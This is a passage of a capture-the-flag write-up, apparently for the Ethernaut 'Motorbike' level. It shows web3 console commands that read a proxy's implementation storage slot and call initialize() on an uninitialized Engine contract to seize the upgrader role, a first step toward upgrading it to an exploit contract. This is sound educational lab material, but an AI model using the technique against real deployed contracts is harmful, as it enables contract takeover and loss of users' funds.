 to call **`_upgradeToAndCall`** function, we must call **`upgradeToAndCall`** function.

And it requires us to be `upgrader`.



The provided instance is an instance of **`Motorbike`**.

At slot `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc`,  the address of implementation contract (instance of **`Engine`** contract here) is stored.

```javascript
> await web3.eth.getStorageAt(contract.address, web3.utils.hexToNumberString("0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc"));
// '0x000000000000000000000000e9b1a344a91c338da1873a7698cf3a30572eab4e' -> Engine contract address
```

Since Engine contract inherits [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract, its storage layout will be like this:

* slot0:  `upgrader` /`initializing` (bool) /`initialized` (bool) /&#x20;
* slot1: `horsePower`

Note that first 3 variables are packed.\
(If you don't know about variable packing, see [here](https://fravoll.github.io/solidity-patterns/tight\_variable\_packing.html))

```javascript
> const engineAddr = "0xe9b1a344a91c338da1873a7698cf3a30572eab4e";

> await web3.eth.getStorageAt(engineAddr, 0);
// '0x0000000000000000000000000000000000000000000000000000000000000000'

> await web3.eth.getStorageAt(engineAddr, 1);
// '0x0000000000000000000000000000000000000000000000000000000000000000'
```

Here we can see that Engine contract hasn't been initialized yet.\
(If it had been initialized, the value of initialized should be `true`)

So we will call initialize() function and initialize `upgrader` to be `player`.

```javascript
> await web3.eth.sendTransaction({
    from: player,
    to: engineAddr,
    data: web3.eth.abi.encodeFunctionSignature("initialize()")
});

> await web3.eth.getStorageAt(engineAddr, 0);
// '0x0000000000000000000034b4ab0479d10fdbaa3b52c8371c7b1be5c73bb70001'
// player/initializing/initialized
```



Now, we will update `newImplemantation` to our exploit contract address and delegatecall `attack()` function.
